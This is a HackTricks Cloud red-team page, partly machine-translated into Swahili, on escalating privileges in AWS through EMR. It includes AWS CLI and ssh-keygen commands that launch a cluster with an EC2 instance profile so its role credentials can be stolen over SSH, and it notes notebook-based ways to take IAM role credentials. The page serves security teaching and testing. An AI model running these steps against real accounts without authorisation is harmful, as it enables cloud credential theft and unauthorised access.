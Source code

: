 # AWS - EMR Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EMR

Maelezo zaidi **kuhusu EMR** katika:

{% content-ref url="../aws-services/aws-emr-enum.md" %}
[aws-emr-enum.md](../aws-services/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

Mshambuliaji mwenye ruhusa hizi anaweza **kuendesha klasta mpya ya EMR akishikilia majukumu ya EC2** na kujaribu kuiba hati zake.\
Kumbuka kwamba ili kufanya hivi unahitaji **kujua funguo za ssh zilizopitishwa kwenye akaunti** au kuagiza moja, na uweze **kufungua bandari 22 kwenye nodi kuu** (unaweza kuwa na uwezo wa kufanya hivi kwa kutumia sifa `EmrManagedMasterSecurityGroup` na/au `ServiceAccessSecurityGroup` ndani ya `--ec2-attributes`).
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
Note how an **EMR role** is specified in `--service-role` and a **ec2 role** is specified in `--ec2-attributes` inside `InstanceProfile`. However, this technique only allows to steal the EC2 role credentials (as you will connect via ssh) but no the EMR IAM Role.

**Potential Impact:** Privesc to the EC2 service role specified.

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

With these permissions an attacker can go to the **AWS console**, create a Notebook and access it to steal the IAM Role.

{% hint style="danger" %}
Hata kama unachanganya jukumu la IAM kwa mfano wa notebook katika majaribio yangu niliona kwamba niliweza kuiba akiba inayosimamiwa na AWS na si akiba inayohusiana na jukumu la IAM.
{% endhint %}

**Potential Impact:** Privesc to AWS managed role arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

### `elasticmapreduce:OpenEditorInConsole`

Just with this permission an attacker will be able to access the **Jupyter Notebook and steal the IAM role** associated to it.\
The URL of the notebook is `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`

{% hint style="danger" %}
Hata kama unachanganya jukumu la IAM kwa mfano wa notebook katika majaribio yangu niliona kwamba niliweza kuiba akiba inayosimamiwa na AWS na si akiba inayohusiana na jukumu la IAM.
{% endhint %}

**Potential Impact:** Privesc to AWS managed role arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
